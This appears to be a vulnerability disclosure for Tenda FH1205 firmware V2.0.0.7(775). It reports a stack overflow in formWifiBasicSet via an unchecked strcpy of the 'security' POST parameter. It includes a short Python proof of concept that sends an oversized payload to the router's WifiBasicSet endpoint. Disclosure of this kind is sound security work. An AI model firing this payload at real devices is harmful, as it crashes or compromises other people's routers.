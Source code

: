 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2236.html

## Affected version

FH1205 V2.0.0.7(775)

## Vulnerability details

The Tenda FH1205 V2.0.0.7(775) firmware has a stack overflow vulnerability in the `formWifiBasicSet` function. The `v30` variable receives the `security` parameter from a POST request and is later assigned to the `v33` variable, which is fixed at 256 bytes. However, since the user can control the input of `security`, the statement `strcpy(v33, v30);` can cause a buffer overflow. The user-provided `security` can exceed the capacity of the `v33` array, triggering this security vulnerability.

![image-20240319221819491](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319221819491.png)

![image-20240319221952603](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319221952603.png)

![image-20240319222011509](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319222011509.png)

## PoC

```python
import requests
from pwn import *

url = 'http://192.168.84.101/goform/WifiBasicSet'
payload = b'a' * 500 + p32(0xdeadbeef)
data = {
    'security_5g':'1', 
    'hideSsid':'1', 
    'ssid':'1',
    'security':payload, 
    'wrlPwd':'1', 
    'hideSsid_5g':'1', 
    'ssid_5g':'1', 
    'wrlPwd_5g': '1'
}

requests.post(url, data=data)
```

![image-20240304213056127](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240304213056127.png)